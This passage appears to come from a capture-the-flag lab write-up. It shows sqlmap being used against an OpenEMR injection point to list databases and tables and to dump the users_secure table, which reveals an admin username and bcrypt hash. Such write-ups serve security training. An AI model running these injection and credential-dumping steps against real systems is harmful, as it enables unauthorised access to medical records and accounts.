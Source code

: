 There are four different injection attacks.

Now list the dbs:

```

root@kali# sqlmap -r add_edit_event_user.request --dbs
...[snip]...
available databases [2]:
[*] information_schema                                    
[*] openemr    

```

Tables in `openemr`:

```

root@kali# sqlmap -r add_edit_event_user.request -D openemr --tables
...[snip]...
Database: openemr
[234 tables]                                              
+---------------------------------------+
| array                                 |
| groups                                |
| sequences                             |
| version                               |
...[snip]...
| user_settings                         |
| users                                 |
| users_facility                        |
| users_secure                          |
| valueset                              |
| voids                                 |
| x12_partners                          |
+---------------------------------------+
...[snip]...

```

I dumped the `users` table, but didn’t find much. In `users_secure`, I found the admin login:

```

root@kali# sqlmap -r add_edit_event_user.request -D openemr -T users_secure --dump
...[snip]...
Database: openemr
Table: users_secure
[1 entry]
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| id   | salt                           | username      | password                                                     | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
...[snip]...

```
